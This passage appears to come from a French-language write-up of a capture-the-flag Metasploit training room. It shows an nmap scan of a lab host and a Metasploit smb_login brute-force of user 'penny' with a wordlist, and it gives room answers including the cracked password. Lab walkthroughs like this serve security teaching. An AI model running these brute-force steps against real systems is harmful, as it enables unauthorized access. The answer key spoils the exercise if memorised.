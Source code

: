 ```
Starting Nmap 7.80 ( https://nmap.org ) at 2025-10-17 00:35 BST
Nmap scan report for 10.10.217.202
Host is up (0.0046s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
8000/tcp open  http        WebFS httpd 1.21
MAC Address: 02:53:AB:69:19:59 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno }

Le service WebFS version 1.21 est en écoute sur le port 8000.

**Réponse :** `webfs/1.21`

---

**Question 4 : What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.**

Pour effectuer une attaque par force brute sur le service SMB, j'ai utilisé le module `smb_login`.

```bash
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.217.202
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser penny
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
msf6 auxiliary(scanner/smb/smb_login) > run
```
{: .nolineno }

> Le module `smb_login` teste automatiquement chaque mot de passe de la wordlist jusqu'à trouver les bonnes credentials.
{: .prompt-tip }

**Réponse :** `leo1234`

---

### Task 3 - The Metasploit Database

#### Gestion des workspaces

Metasploit intègre une base de données PostgreSQL permettant d'organiser les projets via des workspaces dédiés.

**Vérification du statut de la base de données :**

```bash
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```
{: .nolineno }

